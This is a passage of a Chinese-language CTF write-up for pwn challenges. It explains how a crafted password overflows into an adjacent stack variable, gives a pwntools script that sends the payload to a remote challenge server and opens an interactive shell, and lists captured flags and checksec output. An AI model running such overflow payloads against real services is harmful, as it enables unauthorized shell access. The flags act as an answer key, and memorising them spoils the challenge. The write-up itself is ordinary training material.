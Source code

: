 2. 小端序存储是低位字节存低地址，高位字节存高地址，根据v5和v4存储的相对位置，得到pwd

   ```
   low -----------------------------------------> high (addr)
   loc 01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16
   v5                    01 01 00 00 00 00 00 00
   pwd 61 61 61 61 00 00 01 01 00 00 00 00 00 00 00
   ```

3. 获取shell

   ```python
   from pwn import *
   context.log_level = 'debug'
   context.binary = 'terminal'
   #sh = process('./terminal')
   sh = remote('210.44.150.15', 25354)
   username = b'root'
   password = b'aaaa\x00\x00\x01\x01\x00\x00\x00\x00\x00\x00\x00'
   # v5 = 257 = 0x101
   # password(v4) = aaaa = 0x61616161
   
   sh.recvuntil(b'Username:')
   sh.sendline(username)
   sh.recvuntil(b'Password:')
   sh.sendline(password)
   sh.interactive()
   ```

![](https://s2.loli.net/2024/11/14/aGKIn8cp4PNOhEZ.png)

``` 
SSHCTF{NEvER_7AKE_0v3rFIow_IIgH7ly_e9a3d549a38e}
```

### Signin

nc连接直接拿flag（怎么感觉前面说了一次）

``` 
SSHCTF{wELC0ME_70_7h3_WOr1D_of_PwN_858132a91ebd}
```

### 最后的一面以遗憾结尾

1. checksec，NX enabled

   ``` 
   # checksec last
       Arch:       amd64-64-little
       RELRO:      Partial RELRO
       Stack:      No canary found
       NX:         NX enabled
       PIE:        No PIE (0x400000)
       SHSTK:      Enabled
       IBT:        Enabled
       Stripped:   No
   ```
